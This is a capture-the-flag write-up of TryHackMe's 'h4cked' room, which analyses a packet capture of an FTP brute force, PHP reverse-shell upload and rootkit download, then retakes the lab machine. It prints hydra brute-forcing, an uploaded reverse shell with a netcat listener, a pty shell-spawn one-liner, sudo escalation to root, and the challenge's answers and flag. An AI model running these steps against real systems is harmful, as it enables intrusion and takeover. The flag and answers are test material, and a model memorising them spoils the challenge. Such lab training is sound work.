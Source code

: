 ```yaml
---
title: TryHackMe h4cked
description: TryHackMe h4cked challenge
date: 2021-09-29
tags: [TryHackMe, pentesting]
draft: true
---
```

This is my attempt at TryHackMe's [h4cked](https://tryhackme.com/room/h4cked) challenge.

# Oh no! We've been hacked!
## The attacker is trying to log into a specific service. What service is this?
* Hint:
> Port 21
* Port 21 usually directs to an FTP server.

**Answer**: `FTP`
## There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
**Answer**: `hydra`
## The attacker is trying to log on with a specific username. What is the username?
* The username `jenny` is mentioned in multiple TCP queries:
![TCP queries with username of Jenny](jenny_ftp.jpg)

**Answer**: `jenny`
## What is the user's password?
* The password `password123` with username `jenny` resulted in a successful FTP connection:
![password of `password123`](password123.jpg)


**Answer**: `password123`
## What is the current FTP working directory after the attacker logged in?
1. Filter by FTP.
2. Look for the first mentioning of a current directory:
![current directory of `/var/www/html`](current_directory.jpg)

**Answer**: `/var/www/html`
## The attacker uploaded a backdoor. What is the backdoor's filename?
* A file called `shell.php` was uploaded, which was later given executable permissions:
![PHP code bing uploaded](shell_php.jpg)

**Answer**: `shell.php`
## The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
* Hint:
> Look at the FTP-DATA protocol
* The 2nd FTP-DATA query contains the entire PHP file:
![2nd FTP-DATA query contents](ftp_data.jpg)

**Answer**: `http://pentestmonkey.net/tools/php-reverse-shell`
## Which command did the attacker manually execute after getting a reverse shell?
1. Filter by the 20th TCP stream: `tcp.stream == 20`, which starts after the HTTP GET request for `shell.php`.
2. Follow the stream:
![TCP stream from reverse shell traffic](tcp_stream.jpg)
3. The first command is `whoami`.

**Answer**: `whoami`
## What is the computer's hostname?
* The hostname is visible after the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'` is executed, which is visible from the reverse shell's TCP stream..

**Answer**: `wir3`
## Which command did the attacker execute to spawn a new TTY shell?
* The attacker issued the command `python3 -c 'from pty import spawn; spawn("/bin/bash")'`, which is visible from the reverse shell's TCP stream.

**Answer**: `python3 -c 'from pty import spawn; spawn("/bin/bash")'`
## Which command was executed to gain a root shell?
**Answer**: `sudo su`
## The attacker downloaded something from GitHub. What is the name of the GitHub project?
* The attacker issued the command `https://github.com/f0rb1dd3n/Reptile.git`, which is visible from the reverse shell's TCP stream.

**Answer**: `Reptile`
## The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
* Hint:
> A certain type of kit

**Answer**: `rootkit`
# Hack your way back into the machine
## Run Hydra (or any similar tool) on the FTP service. The attacker might not have chosen a complex password. You might get lucky if you use a common word list.

```bash
$ nmap -sC -sV 10.10.246.123
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-29 16:32 AEST
Nmap scan report for 10.10.246.123
Host is up (0.32s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

```bash
$ hydra -l jenny -P rockyou.txt ftp://10.10.246.123
[21][ftp] host: 10.10.246.123   login: jenny   password: 987654321
1 of 1 target successfully completed, 1 valid password found
```

```bash
$ ftp 10.10.246.123
Name (10.10.246.123:applegamer22): jenny
Password: 987654321
ftp> ls
-rw-r--r--    1 1000     1000        10918 Feb 01  2021 index.html
-rwxrwxrwx    1 1000     1000         5493 Feb 01  2021 shell.php
ftp> get shell.php
ftp> put shell.php
```

```bash
$ nc -lvnp 1234
$ python3 -c 'from pty import spawn; spawn("/bin/bash")'
www-data@wir3:/$ su jenny
Password: 987654321
jenny@wir3:/$ sudo su
[sudo] password for jenny: 987654321
root@wir3:/# cat /root/Reptile/flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```